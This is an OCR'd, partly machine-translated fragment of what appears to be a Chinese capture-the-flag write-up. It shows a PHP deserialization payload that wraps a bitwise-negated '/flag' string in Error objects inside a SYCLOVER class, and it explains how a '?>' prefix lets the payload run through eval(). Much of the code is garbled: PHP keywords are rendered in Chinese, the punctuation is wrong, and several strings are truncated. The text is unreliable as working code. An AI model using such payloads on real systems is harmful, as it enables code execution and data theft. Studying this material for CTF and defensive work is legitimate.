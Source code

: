       
      
    $str = "?> .urldecode( "%D0%99%93%9E%98" )。"?>" ;   
    /*  
    或使用[~(取反)][!%FF]的形式，  
    即： $str = "?>";      
      
    $str = "?>";   
    */   
    $a =新 错误( $str , 1 ); $b =新 错误( $str , 2 );   
    $c =新SYCLOVER();   
    $c ->syc = $a ;   
    $c -> 情人 = $b ;   
    回声（urlencode（序列化（$c）））；  
      
    ?>  
      
  
---|---  
  
`  
`

`这里`$str =
"?>";`为什么要在前面加上一个`?>`呢？因为`Exception`类与`Error`的`__toString`方法在eval()函数中输出的结果是不可能控制的，即输出的报错信息中，payload前面还有一段杂乱信息“Error:
”：`

`  
`

``

`PHP`

``

    
    
    1   
    2   
    3  
    

|

    
    
    错误：/usercode/file.php 中的有效负载：2  
    堆栈跟踪：  
    #0 {main}  
      
  
---|---  
  
`  
`

`进入的eval（）函数会类似于：`eval("...Error: ")`。我们所以要用`?>`来闭合一下，即`eval("...Error:
?>")`，这样我们的有效载荷便能顺利执行了。`

`生成的payload如下：`
